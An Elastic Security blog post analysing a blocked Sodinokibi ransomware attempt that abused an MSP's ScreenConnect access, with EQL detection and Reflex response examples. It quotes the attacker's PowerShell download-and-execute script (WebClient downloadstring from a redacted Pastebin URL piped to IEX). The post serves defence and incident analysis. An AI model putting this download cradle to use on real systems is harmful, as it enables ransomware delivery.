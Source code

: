 ```yaml
---
title: "Ransomware, interrupted: Sodinokibi and the supply chain"
slug: "ransomware-interrupted-sodinokibi-and-the-supply-chain"
date: "2022-06-02"
description: "Learn how Elastic Endpoint Security's behavior-based protections prevented a targeted ransomware attack on multiple endpoints."
author:
  - slug: david-french
image: "ransomware-prevention-blog-thumbnail.jpg"
category:
  - slug: campaigns
---
```


Last month, the [Elastic Security](https://www.elastic.co/blog/introducing-elastic-endpoint-security) Protections Team prevented an attempted ransomware attack targeting an organization monitored by one of our customers, an IT Managed Service Provider (MSP). We analyzed the alerts that were generated after an adversary’s process injection attempts were prevented by [Elastic Endpoint Security](https://www.elastic.co/products/endpoint-security) on several endpoints. Adversaries often attempt to inject their malicious code into a running process before encrypting and holding the victim’s data to ransom.

The behavior we observed in this case is consistent with reports of malicious actors, who have targeted MSPs in order to deploy ransomware at an enterprise scale. By abusing the trust relationships between MSPs and their customers, attacks of this nature scale in impact — capable of crippling small businesses, interfering with transportation, or even disrupting a critical municipal public service.

It is important to note in this case that the adversary accessed the target environment via another MSP, who is not an Elastic Security customer — we do not have specific details about that environment or how it may have been compromised.

In this post, we’ll discuss the malicious behavior that we observed and prevented, why this attack is often successful in the wild, and what you can do to reduce the effectiveness of this type of attack in your enterprise.

> Elastic Security Intelligence and Analytics, a team within Elastic Security Engineering, uses anonymized security telemetry from participating customers to track threats and improve products, a function that includes collecting alert metadata. By monitoring patterns of events affecting many customers, we’re able to make time-sensitive decisions that improve our ability to mitigate emerging threats or provide the community with essential information.

## Preventing malicious process injection

The earliest evidence of compromise was detected when several [process injection](https://attack.mitre.org/techniques/T1055/) attempts were prevented. Process injection can be used to execute code in the address space of a running process. Adversaries often execute this technique in an attempt to avoid detection by security products, or to run their malicious code in a process running at a higher integrity level to elevate their privileges.

![Process Injection alerts in the Elastic Endpoint Security platform](/assets/images/ransomware-interrupted-sodinokibi-and-the-supply-chain/ransomware-prevention-blog-process-injection-alerts.jpg)

Analyzing the process injection alerts established that PowerShell, a powerful native scripting framework, was leveraged in an attempt to inject shellcode into itself — a behavior that is usually malicious. The powershell.exe process was created as a descendant of ScreenConnect.WindowsClient.exe — a remote desktop support application. This type of software is used to allow IT administrators to connect to remote computers and provide support to end users, but applications like this are often abused by adversaries — a tactic known as “living off the land.”

The figure below depicts the unusual process lineage associated with this case in Resolver™, our visualization that displays events associated with an attack.

![Resolver™ showing the process lineage associated with the Process Injection attempt](/assets/images/ransomware-interrupted-sodinokibi-and-the-supply-chain/ransomware-prevention-blog-resolver.jpg)

Notice that cmd.exe and powershell.exe are both descendants of the ScreenConnect.WindowsClient.exe process. This is suspicious considering their ability to execute malicious commands or scripts, but in isolation this does not necessarily indicate malicious activity. Baselining your environment and understanding normal process relationships in your enterprise is crucial to hunting for, detecting, or responding to malicious behavior.

In this case, reviewing the processes and their command line arguments revealed that the adversary leveraged ScreenConnect remote desktop software to connect and copy a batch file to the target endpoint. Examining one of the cmd.exe processes in Resolver™ showed that the batch file contained a Base64-encoded PowerShell script that was subsequently executed.

## Detecting and preventing unwanted behaviors with EQL

While this potential target protected by Elastic Endpoint Security avoided an expensive ransomware outbreak, many MSPs are still coming to grips with this methodology. This adversary understands that service providers often have implicit trust with their customers and that makes providers of all kinds valuable.

Once an adversary has obtained initial access to their target environment, it is typical for them to seek out and abuse implicit trust relationships as seen in this case. The victim organization trusts the connections to their environment from their MSP via the remote desktop support application, which introduces the risk of [supply chain compromise](https://attack.mitre.org/techniques/T1195/).

When considering how to monitor and defend these trust relationships, focusing on applications that connect from the trusted party into your network is a good starting point. Blacklisting descendant processes of ScreenConnect may not be a viable solution to prevent this malicious behavior, as this may prevent legitimate support personnel from being effective. However, a security monitoring team may decide that a descendant process of ScreenConnect that is using the network is suspicious and want to detect and prevent that behavior. This is possible using [Elastic’s Event Query Language (EQL)](https://www.endgame.com/blog/technical-blog/getting-started-eql) and is a generic approach to developing environmental awareness.

The following EQL query searches for a sequence of two events that are tied together using the process’s unique process ID (PID). The first event looks for a process that is a descendant of ScreenConnect\*.exe. The second event looks for network activity from the descendant process. This query can easily be expanded to include other remote access software or filter expected activity in your environment.

```
sequence by unique_pid
  [process where descendant of [process where process_name == "ScreenConnect*.exe"]]
  [network where true]
```

With Elastic Endpoint Security, it is also possible to configure a [Reflex response action](https://www.elastic.co/blog/what-is-reflex), which is a way for customers to implement their own custom prevention rules. For example, we can kill the descendant process when it establishes a network connection, which would prevent additional malicious code from being downloaded or command and control activity.

![Configuring a Reflex response action in the Elastic Endpoint Security platform](/assets/images/ransomware-interrupted-sodinokibi-and-the-supply-chain/ransomware-prevention-blog-reflex-response.jpg)

Elastic Endpoint Security ships with hundreds of our own behavior-based analytics that include ways to detect and prevent abnormal process relationships involving third-party administrative tools or binaries that are native to the Windows, MacOS, or Linux operating systems.

## Analysis of adversary tradecraft

The PowerShell script that was executed checked the processor architecture before utilizing the .NET WebClient class to download content from Pastebin and the Invoke-Expression (IEX) cmdlet to execute code. This is a popular technique amongst adversaries for downloading and executing code via PowerShell.

Pastebin is a plain text hosting and sharing service where legitimate users often share code snippets. However, malicious actors utilize Pastebin and similar websites to store malicious code or publish leaked credentials.

```
If ($ENV:PROCESSOR_ARCHITECTURE  - contains 'AMD64')  {
    Start - Process  - FilePath "$Env:WINDIR\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"  - argument "IEX ((new-object net.webclient).downloadstring('https://pastebin[.]com/raw/[REDACTED]'));Invoke-LJJJIWVSRIMKPOD;Start-Sleep -s 1000000;"
} else {
    IEX ((new - object net.webclient).downloadstring('https://pastebin[.]com/raw/[REDACTED]'));
    Invoke - LJJJIWVSRIMKPOD;
    Start - Sleep  - s 1000000;
}
```

_PowerShell script that downloaded content1 from pastebin.com_

This behavior is often categorized as a fileless or in-memory attack due to zero or minimal disk activity that occurs on the endpoint. When the Elastic Endpoint Security agent detects a fileless attack, it automatically collects and extracts the staged injected code and strings. This feature ensured that we had full visibility into the behavior being prevented.

Searching [VirusTotal](https://www.virustotal.com/) for some of the collected strings surfaced several specimens from the Sodinokibi ransomware family.

The following specific toolmarks and behaviors indicate that this activity is consistent with the execution of the Sodinokibi or Gandcrab ransomware specimens as reported by [BleepingComputer](https://www.bleepingcomputer.com/news/security/sodinokibi-ransomware-spreads-wide-via-hacked-msps-sites-and-spam/) and [Cynet](https://www.cynet.com/blog/ransomware-never-dies-analysis-of-new-sodinokibi-ransomware-variant/):

- The malicious actor utilized ScreenConnect remote desktop support software to connect from a compromised MSP to the target enterprise.
- ScreenConnect was used to copy a batch script to the endpoints, which contained a PowerShell script to download and inject malicious code from Pastebin.
- The PowerShell script contained cmdlets and strings (e.g., Invoke-LJJJIWVSRIMKPOD and Start-Sleep) that have been observed in other Sodinokibi ransomware campaigns.
- The strings that were collected from the injected threads are consistent with Sodinokibi ransomware samples that were submitted to VirusTotal within the last 24 hours.

After the adversary’s attempt to self-inject shellcode and execute ransomware was prevented, their attack on the initial endpoint stopped. After a period of 15 minutes, the adversary returned and attempted to execute the same procedures on an additional five endpoints before giving up. All of their attempts to deploy ransomware were prevented.

## Conclusion

In this post, we discussed a real-world case of a malicious actor abusing trusted relationships between an MSP and its customers and attempting to deploy ransomware. This highlights the importance of understanding the relationships that your organization has with third parties and the potential impact if those connections are abused.

Analyzing the alerts revealed that the adversary connected to the customer’s environment via remote desktop support software and executed a malicious script with the intention of downloading, injecting, and executing ransomware. All of the adversary’s attempts were prevented.

This case also demonstrates the importance of having a layered approach to security and being able to detect and prevent adversary behavior and fileless attacks. We dissected the attackers procedures and showed how EQL and Reflex can be used to create custom rules and responses.

Looking only for malicious files is not enough; Elastic Endpoint Security provides several layers of behavior-based protections against ransomware, fileless attacks, phishing, exploits, and adversary behavior.

[EQL support is being added to Elasticsearch](https://github.com/elastic/elasticsearch/issues/49581).

_1 — The content has since been removed from Pastebin by its creator or the Pastebin staff_
